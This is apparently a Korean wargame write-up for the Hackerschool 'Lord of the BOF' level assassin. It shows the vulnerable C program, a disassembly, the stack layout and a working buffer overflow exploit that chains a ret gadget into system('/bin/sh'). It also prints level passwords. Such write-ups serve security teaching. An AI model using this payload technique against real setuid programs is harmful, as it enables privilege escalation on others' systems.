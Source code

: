 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 LEVEL15 (Giant -> Assassin) : No Stack, No RTL"
date: 2015-11-30 12:03:10
category: wargame
tags:  bof 
---
```


- id = giant
- pw = one step closer

<!--more--> 

## 1. 문제 : assassin.c

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - assassin
        - no stack, no RTL
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];
       if(argc < 2){
                printf("argv error\n");
                exit(0);
       }

    if(argv[1][47] == '\xbf')
    {
                printf("stack retbayed you!\n");
                exit(0);
        }

        if(argv[1][47] == '\x40')
        {
                printf("library retbayed you, too!!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer+sfp hunter
        memset(buffer, 0, 44);
}
```

## 2. 공격 준비

### 2.1 공격 방법 고민

BoF 를 위한 return address 설정을 stack (0xbf)과 library (0x40)을 이용할 수 없다면… ROP (Return Oriented Programming)을 이용해야할까 ? Gadget은 어디에서 찾아야 하나 ?

잘 모르겠으니 혹시나 실행 파일 assassin의 assembler을 확인해보자.

### 2.2 assassin()

```
08048470 <main>:
 8048470:       55                      push   %ebp
 8048471:       89 e5                   mov    %esp,%ebp
 8048473:       83 ec 28                sub    $0x28,%esp
 8048476:       83 7d 08 01             cmpl   $0x1,0x8(%ebp) 
 8048477:       ...
 8048515:       e8 7e fe ff ff          call   8048398 <_init+0x90>
 804851a:       83 c4 0c                add    $0xc,%esp
 804851d:       c9                      leave
 804851e:       c3                      ret
 804851f:       90                      nop
```

우리가 현재 필요로한 gadget 은 단순히 stack, library 가 아닌 값으로 jump 한 다음에 다시 stack 으로 돌아오면 되는거다. 즉, LR 주소로 stack, library 을 못 쓰기 때문에 다른쪽으로 한 번 jump 한 다음에 다시 stack 으로 돌아오면 된다. 그렇다면… assassin 프로그램에 있는 ret 으로 jump 한다면 ??? ㅋㅋ

### 2.3 Stack 구성

```
[ Buffer[40] ][ SFR ][ LR ][ ...]
= [ Buffer[44] ][ ret() ][ system() ][ exit() ][ /bin/sh ]

- ret()    : 0x0804851e
- system() : 0x40058ae0
- exit()   : 0x400391e0
- /bin/sh  : 0x400fbff9
```

## 3 Exploit

```bash
$ ./assassin "`python -c 'print "\x90"*44 + "\x1e\x85\x04\x08" + "\xe0\x8a\x05\x40" + "\xe0\x91\x03\x40" + "\xf9\xbf\x0f\x40"'`"   

à@à@ù¿@

bash$ id
uid=514(giant) gid=514(giant) euid=515(assassin) egid=515(assassin) groups=514(giant)
```

## 4. 다음 단계 정보

```bash
bash$ id
uid=514(giant) gid=514(giant) euid=515(assassin) egid=515(assassin) groups=514(giant)

bash$ my-pass
euid = 515
pushing me away
```











